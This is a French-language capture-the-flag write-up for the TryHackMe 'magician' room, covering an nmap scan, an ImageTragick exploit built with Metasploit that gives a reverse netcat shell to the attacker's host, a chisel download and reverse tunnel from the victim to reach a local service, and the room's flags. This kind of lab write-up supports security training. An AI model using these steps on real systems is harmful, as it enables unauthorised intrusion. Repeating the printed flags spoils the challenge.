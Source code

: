 # magician #

## Task 1 Find the flags! ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.126.254 magician.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A magician -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 14:07 CEST
Nmap scan report for magician.thm (10.10.126.254)
Host is up (0.072s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
8081/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/10%OT=21%CT=1%CU=36886%PV=Y%DS=2%DC=T%G=Y%TM=61126C7
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   34.36 ms  10.9.0.1
2   102.55 ms magician (10.10.126.254)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.06 seconds

```

D'après le scan on voit 2 services : 
Le service FTP sur le port 21.     
Le service HTTP sur le port 8081.   

```bash
connected to magician.
220 THE MAGIC DOOR
Name (magician.thm:tim): anonymous
331 Please specify the password.
Password:

230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.

```

Quand on se connect sur le service FTP on un message qui nous dirige vers un site.

![page1](./Task1-01.png)

Le site nous indique une faille CVE-2016-3714 avec un exemple pour exploiter la faille.     

![page2](./Task1-02.png)

Sur la page web on peut téléverser une image au format.png.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfconsole -q
msf6 > search imagemagick

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/unix/webapp/coppermine_piceditor             2008-01-30       excellent  Yes    Coppermine Photo Gallery picEditor.php Command Execution
   1  exploit/multi/fileformat/ghostscript_failed_restore  2018-08-21       excellent  No     Ghostscript Failed Restore Command Execution
   2  exploit/unix/fileformat/ghostscript_type_confusion   2017-04-27       excellent  No     Ghostscript Type Confusion Arbitrary Command Execution
   3  exploit/unix/fileformat/imagemagick_delegate         2016-05-03       excellent  No     ImageMagick Delegate Arbitrary Command Execution


Interact with a module by name or index. For example info 3, use 3 or use exploit/unix/fileformat/imagemagick_delegate

```

Sur metasploit on trouve un exploit qui permet d'exécuter du code à distance.  

```bash
msf6 > use 3
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/imagemagick_delegate) > options

Module options (exploit/unix/fileformat/imagemagick_delegate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILENAME   msf.png          yes       Output file
   USE_POPEN  true             no        Use popen() vector


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.26     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   SVG file

msf6 exploit(unix/fileformat/imagemagick_delegate) > set LHOST 10.9.228.66
LHOST => 10.9.228.66

msf6 exploit(unix/fileformat/imagemagick_delegate) > set target 1
target => 1

msf6 exploit(unix/fileformat/imagemagick_delegate) > run

[+] msf.png stored at /home/tim/.msf4/local/msf.png

tim@kali:~/Bureau/tryhackme/write-up$ cp /home/tim/.msf4/local/msf.png ./
```

Avec metasploit on créer un fichier avec un reverse shell à l'intérieur. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
listening on [any] 4444 ...
```

On écoute le bon port 

![page3](./Task1-03.png)

On téléverse le l'exploit avec le reverse shell.   


**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.24.42] 57896
id
uid=1000(magician) gid=1000(magician) groups=1000(magician)
cat /home/magician/user.txt
THM{simsalabim_hex_hex}

```

On obtient un shell avec les droits magicien.    
On lit le fichier user.txt.    

La réponse est : THM{simsalabim_hex_hex}     

**root.txt**

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
magician@magician:/tmp/hsperfdata_magician$ 

agician@magician:/tmp/hsperfdata_magician$ netstat -l
netstat -anp | grep LISTEN
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      933/java            
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
unix  2      [ ACC ]     SEQPACKET  LISTENING     14990    -                    /run/udev/control
unix  2      [ ACC ]     STREAM     LISTENING     22561    921/systemd          /run/user/1000/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     22565    921/systemd          /run/user/1000/gnupg/S.gpg-agent
unix  2      [ ACC ]     STREAM     LISTENING     22566    921/systemd          /run/user/1000/gnupg/S.gpg-agent.extra
unix  2      [ ACC ]     STREAM     LISTENING     22567    921/systemd          /run/user/1000/gnupg/S.gpg-agent.ssh
unix  2      [ ACC ]     STREAM     LISTENING     22568    921/systemd          /run/user/1000/snapd-session-agent.socket
unix  2      [ ACC ]     STREAM     LISTENING     22569    921/systemd          /run/user/1000/gnupg/S.dirmngr
unix  2      [ ACC ]     STREAM     LISTENING     22570    921/systemd          /run/user/1000/gnupg/S.gpg-agent.browser
unix  2      [ ACC ]     STREAM     LISTENING     14939    -                    /run/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     14949    -                    /run/systemd/journal/stdout
unix  2      [ ACC ]     STREAM     LISTENING     14988    -                    /run/lvm/lvmpolld.socket
unix  2      [ ACC ]     STREAM     LISTENING     15407    -                    /run/lvm/lvmetad.socket
unix  2      [ ACC ]     STREAM     LISTENING     21929    -                    /var/lib/amazon/ssm/ipc/termination
unix  2      [ ACC ]     STREAM     LISTENING     18963    -                    /var/lib/lxd/unix.socket
unix  2      [ ACC ]     STREAM     LISTENING     18922    -                    @ISCSIADM_ABSTRACT_NAMESPACE
unix  2      [ ACC ]     STREAM     LISTENING     21928    -                    /var/lib/amazon/ssm/ipc/health
unix  2      [ ACC ]     STREAM     LISTENING     18917    -                    /run/snapd.socket
unix  2      [ ACC ]     STREAM     LISTENING     18919    -                    /run/snapd-snap.socket
unix  2      [ ACC ]     STREAM     LISTENING     18935    -                    /run/uuidd/request
unix  2      [ ACC ]     STREAM     LISTENING     18941    -                    /run/acpid.socket
unix  2      [ ACC ]     STREAM     LISTENING     18951    -                    /var/run/dbus/system_bus_socket

```

On remarque qu'il quelque chose de connecter sur le local host sur le port 6666.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ whereis chisel
chisel: /usr/bin/chisel

tim@kali:~/Bureau/tryhackme/write-up$ whereis chisel
chisel: /usr/bin/chisel
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

tim@kali:~/Bureau/tryhackme/write-up$ chisel server -p 9002 --reverse
2021/08/10 16:36:40 server: Reverse tunnelling enabled
2021/08/10 16:36:40 server: Fingerprint U/LvCFAMN1EFU5sTy4i9EE39NWyOY7mKunwk+pE0z2U=
2021/08/10 16:36:40 server: Listening on http://0.0.0.0:9002
```

Sur notre machine on prépare chisel.  
On dit à chisel d'écouter sur le port 9002.   

```bash
magician@magician:/tmp$ wget http://10.9.228.66:8000/chisel -nv
wget http://10.9.228.66:8000/chisel -nv
2021-08-10 10:27:56 URL:http://10.9.228.66:8000/chisel [8750072/8750072] -> "chisel" [1]

magician@magician:/tmp$ chmod +x chisel
chmod +x chisel

magician@magician:/tmp$ ./chisel client 10.9.228.66:9002 R:9001:127.0.0.1:6666
<hisel client 10.9.228.66:9002 R:9001:127.0.0.1:6666
2021/08/10 10:40:00 client: Connecting to ws://10.9.228.66:9002
2021/08/10 10:40:00 client: Connected (Latency 36.73419ms)
```

Sur la machine la victime on fait un redirection de port 6666 à 9002.   

![page4](./Task1-04.png)

On se retrouve avec une page qui demande un nom de fichier.

![page5](./Task1-05.png)

En mettant /root/root.txt

On une chaîne en hexadecimal.  

54484d7b6d616769635f6d61795f6d616b655f6d616e795f6d656e5f6d61647d0a

![page6](./Task1-06.png)

Quand on convertie notre chaîne on a notre flag.   

La réponse est :  54484d7b6d616769635f6d61795f6d616b655f6d616e795f6d656e5f6d61647d0a    




